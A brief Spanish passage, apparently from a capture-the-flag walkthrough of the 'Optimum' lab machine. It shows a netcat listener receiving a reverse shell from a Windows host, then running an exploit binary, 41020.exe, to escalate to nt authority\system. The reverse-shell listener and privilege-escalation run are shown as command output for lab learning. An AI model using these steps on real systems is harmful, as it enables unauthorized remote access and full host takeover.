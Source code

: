 Recibimos la `consola`

```
# rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.16.16] from (UNKNOWN) [10.129.192.202] 49291
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>whoami
whoami
optimum\kostas
```

Ejecutamos el binario y nos convertimos en `nt authority\system`

```
C:\Windows\Temp\privesc>41020.exe
41020.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\Temp\privesc>whoami
whoami
nt authority\system
```
